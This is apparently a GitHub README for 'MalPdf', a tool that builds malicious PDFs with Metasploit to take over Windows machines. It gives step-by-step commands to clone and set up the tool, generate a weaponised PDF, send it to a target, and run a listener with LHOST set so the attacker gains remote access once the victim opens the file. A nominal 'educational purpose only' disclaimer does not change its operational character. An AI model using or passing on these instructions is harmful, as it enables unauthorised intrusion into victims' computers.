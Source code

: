 # MalPdf

This is an easy to setup malicious pdf generator which uses metasploit framework.

##This works only with Linux##

This can exploit only windows
Requirements:
      1Gb data
      1Gb storage space

#This is not for exploiting other's PCs and this is for educational purpose only
First start your command prompt or power shell

Type the command:

$apt install git

$git clone https://github.com/Nicko15/MalPdf.git

$cd MalPdf


Now run the 'setup.sh' file by typing:

$./setup.sh

All the needed packages and frameworks will be downloaded

Now to create malicious pdf and use, run the 'create.sh'file by typing:

$cd metasploit-framework

$msfconsole

$sudo bash create.sh

 You will get a file path and you can shere the file to your target

To listen to the pdf, type:

$sudo bash listen.sh

$set LHOST <your_ip>

$run

Replace <your_ip> with your ip address
Now your pc will start listening. As soon as your target opens the pdf, you will get access over his pc
